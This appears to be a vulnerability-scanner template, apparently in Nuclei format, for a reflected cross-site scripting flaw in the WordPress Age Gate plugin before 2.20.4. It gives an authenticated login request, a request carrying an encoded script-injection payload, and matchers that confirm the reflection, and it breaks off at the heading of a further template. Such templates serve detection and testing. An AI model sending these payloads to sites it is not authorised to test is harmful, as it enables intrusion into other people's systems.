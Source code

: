 - WordPress Age Gate plugin before 2.20.4 contains a cross-site scripting vulnerability. The plugin does not escape some URLs before outputting them back in attributes.

- severity - high
- tags - xss,authenticated,age-gate,wpscan,wordpress,wp-plugin,wp

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/admin.php?page=age-gate&a%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. ">\<script>alert(document.domain)\</script>
  2. Age Gate Restriction Settings
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Analytify \<4.2.1 - Cross-Site Scripting

## Description
